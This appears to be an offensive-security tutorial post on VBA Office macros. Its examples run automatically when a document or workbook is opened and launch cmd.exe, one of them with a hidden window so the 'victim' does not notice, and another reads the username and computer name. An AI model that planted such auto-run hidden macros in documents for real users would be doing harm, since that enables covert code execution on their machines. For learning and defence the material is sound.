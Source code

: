 ```yaml
---
description: >-
  VBA Office Macro
title: VBA Office Macro          # Add title here
date: 2025-05-19 08:00:00 -0600                           # Change the date to match completion date
categories: [22 Evasion Techniques, VBA Office Macro]          # Change Templates to Writeup
tags: [evasion, office macro, vba]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png          # Add infocard image here for post preview image
---
```


Technique to use VBA to launch an external application like cmd.exe. The first and simplest technique leverages the VBA Shell function, which takes two arguments. The first is the path and name of the application to launch along with any arguments. The second is the WindowStyle, which sets the program's window style. As attackers, the vbHide value or its numerical equivalent (0) is the most interesting as it will hide the window of the program launched.

In the example below, as soon as the victim enables macros, we will launch a command prompt with a hidden window.
```c
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "cmd.exe"
    CreateObject("Wscript.Shell").Run str, 0
End Sub
```
### ENVIRONMENT$ Variable usage
```c
Sub PrintUserAndComputerName()
    Dim i As Integer
    Dim userName As String
    Dim computerName As String

    userName = Environ$("USERNAME")
    computerName = Environ$("COMPUTERNAME")

    For i = 1 To 5
        Debug.Print "User: " & userName & " | Computer: " & computerName
    Next i
End Sub
```
This is only shown on VBA Debugger, to See the Output:
- Press Alt + F11 to open the VBA Editor.
- Press Ctrl + G to open the Immediate Window.
- Run the macro again (F5).

### Executing cmd.exe using Excel Sheet Macro
```c
Private Sub Workbook_Open()
    Shell "cmd.exe", vbNormalFocus
End Sub
```
